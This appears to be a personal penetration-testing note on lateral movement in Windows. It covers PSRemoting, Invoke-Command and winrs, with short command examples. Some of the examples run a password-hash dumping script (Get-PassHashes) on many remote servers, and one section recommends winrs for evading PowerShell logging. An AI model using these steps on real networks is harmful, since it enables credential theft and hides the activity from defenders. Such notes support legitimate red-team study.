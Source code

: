 ```yaml
---
tags:
  - lateral-movement
cssclasses:
---
```

#### Connect to remote hosts using [[PowerShell]]

- More silent and faster than psexec
- [PSRemoting](https://learn.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.4&viewFallbackFrom=powershell-7.3) uses Windows Remote Management (WinRM) which is Microsoft's implementation of WS-Management
- Enabled by default on Server 2012 onwards with a firewall exception
- Uses WinRM and listens by default on 5985 (HTTP) and 5986 (HTTPS)
- It is the recommended way to manage Windows Core servers.
- Enabling remoting (`Enable-PSRemoting`) on a Desktop Windows machine might be required, admin privileges are required to do that.
- The remoting process runs as a high integrity process. That is, you get an elevated shell.

#### PSSession
- Interactive
- Runs in a new process (wsmprovhost)
- Is stateful
- One-to-One

```powershell title:"Useful cmdlets"
New-PSSession
Enter-PSSession
```

```powershell title:"Usage"
$computername = New-PSSession -ComputerName computername
```

#### Invoke-Command
- Non-Interactive
- Executes commands parallelly
- Stateless, also known as fan-out remoting
- One-to-Many

```powershell title:"Execute commands or scriptblocks"
Invoke-Command -Scriptblock {Get-Process} -ComputerName (Get-Content <list_of_servers>)
```

```powershell title:"Execute scripts from files"
Invoke-Command -FilePath C:\scripts\Get-PassHashes.ps1 -ComputerName (Get-Content <list_of_servers>)
```

```powershell title:"Execute locally loaded function on the remote machines"
Invoke-Command -ScriptBlock ${function:Get-Passhashes} -ComputerName (Get-Content <list_of_servers>)
```

```powershell title:"Execute locally loaded function on the remote machines and passing arguments to it"
Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <list_of_servers>) -ArgumentList
```

```powershell title:"Execute "stateful" commands using Invoke-Commmand"
Invoke-Command -Session $computername -ScriptBlock {$Proc = Get-Process}
Invoke-Command -Session $computername -ScriptBlock {$Proc.Name}
```

#### winrs
- PowerShell remoting supports the system-wide transcripts and deep script block logging
- We can use winrs in place of PSRemoting to evade the logging (and still reap the benefit of 5985 allowed between hosts)

```batch title:"Usage"
winrs -r:computername -u:computername\administrator -p:password hostname
```
```batch
winrs -r:computername command
```
